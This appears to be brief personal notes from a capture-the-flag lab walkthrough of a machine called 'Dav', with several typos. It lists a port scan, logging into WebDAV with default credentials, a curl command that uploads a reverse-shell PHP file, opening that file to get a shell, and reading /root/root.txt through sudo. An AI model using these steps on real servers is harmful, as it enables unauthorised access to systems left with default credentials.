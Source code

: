 # Dav
```
Export IP = "10.10.237,170"
```

## SCAN
```
80, http
```

## Enumerate
```
1. webdav (default Credential =  wampp:xampp )

[File Upload]
2. curl --user "wampp:xampp" htttp://{{export ip}}/webdav --upload-file reverse-shell.php -v
```

## Gaining Access
```
1. access to http://{{export_ip}}/webdav/reverse-shell.php
```

## Privilige Escalte
```
1. sudo /bin/cat /root/root.txt
```